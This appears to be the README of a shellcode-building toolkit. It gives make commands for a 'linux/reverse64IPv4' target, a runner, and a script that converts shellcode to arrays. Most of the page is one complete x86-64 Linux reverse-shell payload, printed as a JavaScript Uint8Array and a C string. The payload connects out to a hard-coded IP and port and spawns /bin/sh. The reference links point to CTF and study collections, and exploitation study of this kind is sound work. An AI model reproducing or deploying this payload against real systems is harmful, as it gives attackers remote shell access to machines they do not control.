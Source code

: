 ## Make Shellcode

* build shellcode:

```shell
make shellcode T=linux/reverse64IPv4

```

* build run elf:

```shell
make run T=linux
```

* run shellcode:

```
./run ./shellcode
```

* shellcode to array:

```shell
╭─ 
╰─ python ./tools/s2a.py shellcode
var JavaScript_shellcode = new Uint8Array([
    0x6a, 0x02, 0x5f, 0x6a, 0x01, 0x5e, 0x6a, 0x00,
    0x5a, 0x6a, 0x29, 0x58, 0x0f, 0x05, 0x48, 0x97,
    0x6a, 0x00, 0x48, 0xb8, 0x02, 0x00, 0x30, 0x1b,
    0xc0, 0xa8, 0x00, 0xde, 0x50, 0x48, 0x89, 0xe6,
    0x6a, 0x10, 0x5a, 0x6a, 0x2a, 0x58, 0x0f, 0x05,
    0x6a, 0x02, 0x5e, 0x6a, 0x21, 0x58, 0x0f, 0x05,
    0x48, 0xff, 0xce, 0x79, 0xf6, 0x31, 0xc0, 0x50,
    0x48, 0xbf, 0x2f, 0x62, 0x69, 0x6e, 0x2f, 0x2f,
    0x73, 0x68, 0x57, 0xb0, 0x3b, 0x48, 0x89, 0xe7,
    0x31, 0xf6, 0x31, 0xd2, 0x0f, 0x05,
])
char C_shellcode[] =
    "\x6a\x02\x5f\x6a\x01\x5e\x6a\x00"
    "\x5a\x6a\x29\x58\x0f\x05\x48\x97"
    "\x6a\x00\x48\xb8\x02\x00\x30\x1b"
    "\xc0\xa8\x00\xde\x50\x48\x89\xe6"
    "\x6a\x10\x5a\x6a\x2a\x58\x0f\x05"
    "\x6a\x02\x5e\x6a\x21\x58\x0f\x05"
    "\x48\xff\xce\x79\xf6\x31\xc0\x50"
    "\x48\xbf\x2f\x62\x69\x6e\x2f\x2f"
    "\x73\x68\x57\xb0\x3b\x48\x89\xe7"
    "\x31\xf6\x31\xd2\x0f\x05"

```

## refs

[shellcode for CTF style exploitation](https://github.com/osirislab/Shellcode)

[Shellcodes database for study cases](http://shell-storm.org/shellcode/)
